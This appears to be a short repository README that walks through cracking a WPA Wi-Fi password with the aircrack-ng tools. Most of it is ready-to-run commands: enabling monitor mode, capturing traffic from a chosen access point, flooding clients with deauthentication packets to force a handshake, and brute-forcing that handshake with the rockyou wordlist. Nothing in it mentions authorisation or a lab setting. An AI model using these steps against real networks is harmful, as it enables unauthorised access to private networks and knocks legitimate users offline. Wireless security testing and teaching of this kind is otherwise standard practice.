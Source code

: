 Since WPA is a strong protocol we can't simply hack it, but we can bruteforce it!

### Useful Commands

First we want to turn on the interface in monitor mode, given that the monitor mode is supported by your card, but we have to kill the processes that interfere with the process of turning the interface into monitor mode.

```bash
# Kill the processes that interfere with starting wlan0 in monitor mode
sudo ifconfig wlan0 down
sudo airmon-ng check kill
# Now put the interface in monitor mode, put the interface up and restart network manager and 
sudo airmon-ng start wlan0
sudo service NetworkManager restart
sudo ifconfig wlan0 up
```

To check if the monitor mode is on and working, we can use the following command:

```bash
sudo iwconfig
```

Now we might need to unplug the USB device then plug it back, then use the following command:

```bash
sudo ifconfig wlan0 up
```

Then we run the following command to start capturing packets:

```bash
sudo airodump-ng wlan0
# To only display the access point that we want, we can use the following command:
sudo airodump-ng wlan0 -d <BSSID>
```

Now we can use the following command to write the captures to a file:

```bash
sudo airodump-ng -w <name of file> -c <channel> --bssid <BSSID> wlan0
```

Next ,we will disconnect a device from a network using deauth packet so we can capture a handshake, and to do so we will use the following command:

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0
```

Finally we will start the brute forcing by using the following command:

```bash
aircrack-ng <.cap file> -w /usr/share/wordlists/rockyou.txt
```

Note: if we want to go back into managed mode, we can use the following command:

```bash
sudo airmon-ng stop wlan0
```
